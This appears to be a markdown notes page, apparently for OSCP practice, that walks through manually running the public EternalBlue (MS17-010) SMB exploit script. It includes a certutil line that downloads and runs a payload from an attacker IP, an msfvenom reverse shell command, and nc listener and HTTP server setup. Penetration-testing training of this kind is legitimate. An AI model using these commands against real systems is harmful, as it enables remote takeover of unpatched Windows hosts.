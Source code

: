 ```yaml
---
date: 2025-05-01
categories: [Fixes, Linux]
title: "EternalBlue Manual Script"
tags: ['linux', 'eternalblue', 'smb']

description: "EternalBlue Manual Script"
---
```


# EternalBlue Manual Script

- Find it here:
<https://github.com/player23-0/Eternal_Blue_Manual_Exploit>

- Download 42315.py
- Download the mysmb.py
- Make sure 42315.py & mysmb.py is in the same folder
- Create msf exe (or use other rev shell command)
- In 42315.py - change:
  - Username and password
  - Uncomment this line and add rev shell/ create one:

`service_exec(conn, r'cmd /c certutil -urlcache -split -f http://192.168.119.189/w644444.exe w644444.exe & w644444.exe')`
- Change this line from letters to ascii_letters:

`service_name = ''.join([random.choice(string.ascii_letters) for i in range(4)])`

- Enumeration for eternal blue:

```bash
nmap --script smb-vuln-ms17–010.nse <target-ip>
```

- Prerequisites:

`pip3 install impacket`

- Download 42315.py and mysmb.py
- Make sure 42315.py & mysmb.py is in the same folder

- Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).

`msfvenom -p windows/shell_reverse_tcp -f exe LHOST=<IP> LPORT=4444 > w644444.exe`
- Or use a different payload (revshells.com)

- Make changes in the exploit to add the authentication credentials and the reverse shell payload.
If you dont have credentials, check if guest is allowed:

`enum4linux -a <target_ip>`

Change USERNAME & PASSWORD values on lines 36&37

- Edit line 923:

`service_exec(conn, r'cmd /c certutil -urlcache -split -f http:// <Your IP>/w644444.exe w644444.exe & w644444.exe')`

Add your IP and change the payload if needed

- Setup Python server on port 80:

```bash
python3 -m http.server 80
```

- Now that we're done all three tasks, setup a listener on your attack machine.

```bash
nc -nlvp 4444
```

- Then run the exploit.

```bash
python 42315.py \<target_ip\>
```